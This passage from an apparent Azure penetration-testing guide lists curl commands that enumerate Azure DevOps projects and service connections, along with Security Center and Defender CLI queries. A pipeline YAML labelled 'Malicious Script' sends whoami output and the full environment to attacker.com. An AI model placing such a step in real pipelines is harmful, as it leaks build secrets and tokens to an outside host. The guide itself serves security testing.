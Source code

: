 #### Pipeline Reconnaissance
```bash
# Azure DevOps API enumeration
curl -u ":personal_access_token" "https://dev.azure.com/organization/_apis/projects"
curl -u ":personal_access_token" "https://dev.azure.com/organization/project/_apis/build/definitions"

# Service connection testing
curl -u ":personal_access_token" "https://dev.azure.com/organization/project/_apis/serviceendpoint/endpoints"
```

#### Build Agent Security
```yaml
# Test pipeline injection
trigger:
- main

steps:
- script: |
    echo "Testing pipeline injection"
    curl http://attacker.com/$(whoami)
    env | curl -X POST -d @- http://attacker.com/env
  displayName: 'Malicious Script'
```

## 10. Azure Security Center Integration

### 10.1 Security Posture Assessment

#### Security Center API Testing
```bash
# Security Center assessments
az security assessment list
az security contact list
az security setting list

# Secure score analysis
az security secure-score list
az security secure-score-controls list
```

### 10.2 Defender for Cloud Testing

#### Defender recommendations
```powershell
# Defender for Cloud security alerts
Get-AzSecurityAlert
Get-AzSecurityTask
Get-AzSecurityAssessment
```
